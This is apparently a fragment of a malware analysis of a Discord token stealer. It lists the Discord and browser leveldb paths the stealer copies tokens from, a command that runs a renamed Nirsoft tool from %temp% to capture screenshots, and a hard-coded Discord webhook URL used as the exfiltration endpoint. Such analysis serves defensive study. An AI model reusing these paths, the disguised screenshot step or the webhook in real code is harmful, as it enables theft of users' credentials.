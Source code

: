* Copy tokens
  ```
  \\discord\\Local Storage\\leveldb\\
  \\Lightcord\\Local Storage\\leveldb\\
  \\discorddevelopment\\Local Storage\\leveldb\\
  \\discordcanary\\Local Storage\\leveldb\\
  \\discordptb\\Local Storage\\leveldb\\
  \\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb\\
  \\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb\\
  \\BraveSoftware\\Brave-Browser-Nightly\\User Data\\Default\\Local Storage\\leveldb\\
  \\Opera Software\\Opera Stable\\Local Storage\\leveldb\\
  \\Vivaldi\\User Data\\Default\\Local Storage\\leveldb\\
  \\Opera Software\\Opera GX Stable\\Local Storage\\leveldb\\
  \\Microsoft\\Edge\\User Data\\Default\\Local Storage\\leveldb\\
  \\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb\\
  \\Mozilla\\Firefox\\Profiles\\webappsstore.sqlite
  ```

* Using Nirsoft to create a screenshot
  ```sh
  start %temp%\\bfsvc.exe /capture /Filename \"%temp%\\capture.png\
  exit
  ```

* Generates the Discord webhook url 
  ```
  http://discord.com/api/v6/webhooks/951530422976790528/KWL-_fgp0yDlQyalmDBem11c_C_VmnpsmzTwSeBGRRoUXz40Wa9q_Me_zD6yyxdzLu4J
  ```

[Virtualprotect] https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect
[isLogging] https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.debugger.islogging?view=net-6.0
[unpac] unpac.me/results/bd7d7188-71f3-45ea-9572-b005efe8117e
[TLD gq] https://en.wikipedia.org/wiki/.gq
[Discord Webhooks] https://birdie0.github.io/discord-webhooks-guide/index.html

